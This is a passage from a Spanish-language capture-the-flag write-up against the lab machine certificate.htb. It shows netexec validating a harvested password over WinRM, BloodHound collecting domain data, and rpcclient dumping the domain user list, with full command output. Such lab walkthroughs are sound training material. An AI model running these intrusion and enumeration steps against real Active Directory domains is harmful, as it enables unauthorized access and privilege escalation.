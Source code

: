 ~~~ bash
nxc winrm DC01.certificate.htb -u 'sara.b' -p 'Blink182'                                                                 
WINRM       10.10.11.71     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certificate.htb)
WINRM       10.10.11.71     5985   DC01             [+] certificate.htb\sara.b:Blink182 (Pwn3d!)
~~~


## Domain Analysis - `Bloodhound`

Como disponemos de credenciales válidas, recolectaremos información del dominio para analizarla desde `Bloodhound`, enumerando relaciones entre usuarios y vías potenciales para elevar nuestros privilegios

~~~ bash
ntpdate DC01.certificate.htb && bloodhound-python -d certificate.htb -ns 10.10.11.71 --zip -c All -u sara.b -p 'Blink182'
2025-09-28 18:32:03.545771 (-0400) +0.010341 +/- 0.115739 DC01.certificate.htb 10.10.11.71 s1 no-leap
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: certificate.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.certificate.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 3 computers
INFO: Connecting to LDAP server: dc01.certificate.htb
INFO: Found 19 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: WS-05.certificate.htb
INFO: Querying computer: WS-01.certificate.htb
INFO: Querying computer: DC01.certificate.htb
INFO: Done in 01M 11S
INFO: Compressing output into 20250928183209_bloodhound.zip
~~~

Opcionalmente, podemos generar una lista de usuarios del dominio con herramientas como `rpcclient` y aplicando un tratamiento a la salida del comando

~~~ bash
rpcclient DC01.certificate.htb -U 'sara.b%Blink182' -c enumdomusers | cut -d ' ' -f1-1 | grep -oP '\[.*?\]' | tr -d '[]' | tee users.txt

Administrator
Guest
krbtgt
Kai.X
Sara.B
John.C
Aya.W
Nya.S
Maya.K
Lion.SK
Eva.F
Ryan.K
akeder.kh
kara.m
Alex.D
karol.s
saad.m
~~~